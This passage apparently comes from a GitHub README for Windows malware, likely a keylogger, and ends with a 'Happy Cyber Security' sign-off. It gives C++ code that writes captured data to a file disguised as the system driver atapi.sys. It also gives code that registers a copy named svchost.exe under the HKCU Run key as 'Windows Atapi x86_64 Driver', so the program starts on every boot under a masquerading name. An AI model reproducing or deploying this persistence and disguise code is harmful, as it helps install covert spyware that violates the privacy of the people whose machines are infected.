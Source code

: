 ```
	char szDir[260];
	strcpy(szDir,ff_path.c_str());
	strcat(szDir,"atapi.sys");
	FILE *file;
	file = fopen(szDir, "a+");

	fputs(dateCh,file);
	fclose(file);

}
```

#### AutoStart on System Bootup

```
void AutoStart()
{
	char Driver[MAX_PATH];
	HKEY hKey;
	string ff_path = userlc + "svchost.exe";
	strcpy(Driver,ff_path.c_str());
	RegOpenKeyExA(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &hKey);
	RegSetValueExA(hKey, "Windows Atapi x86_64 Driver", 0, REG_SZ, (const unsigned char *)Driver, MAX_PATH);
	RegCloseKey(hKey);
}
```

### Happy Cyber Security
### Happy Open Source......
